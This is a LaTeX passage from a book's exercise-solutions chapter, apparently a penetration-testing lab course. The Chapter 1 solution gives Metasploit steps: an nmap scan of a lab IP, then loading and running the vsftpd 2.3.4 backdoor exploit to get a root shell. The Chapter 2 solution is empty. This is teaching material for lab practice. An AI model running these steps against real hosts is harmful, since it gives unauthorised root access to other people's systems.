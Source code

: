 \chapter{Solutions to Exercises}
In this chapter I show my solutions to the exercises from the previous chapters.

\section{Chapter 1}
A possible solution is:

\begin{enumerate}
    \item\texttt{msf6 > nmap -p21 -sV 10.0.2.4}
    \item\texttt{msf6 > search vsfptd} \\
    \texttt{msf6 > use exploit/unix/ftp/vsftpd\_234\_backdoor}
    \item\texttt{msf6 > set RHOST 10.0.2.4}
    \item\texttt{msf6 > run}
    \begin{warnbox}
        Even though the exploit is successful and we get remote code execution, we do not get a prompt.
    \end{warnbox}
    \item\texttt{id}
    \item The user is already root
\end{enumerate}

\section{Chapter 2}
A possible solution is:

\begin{listingbox}
    
\end{listingbox}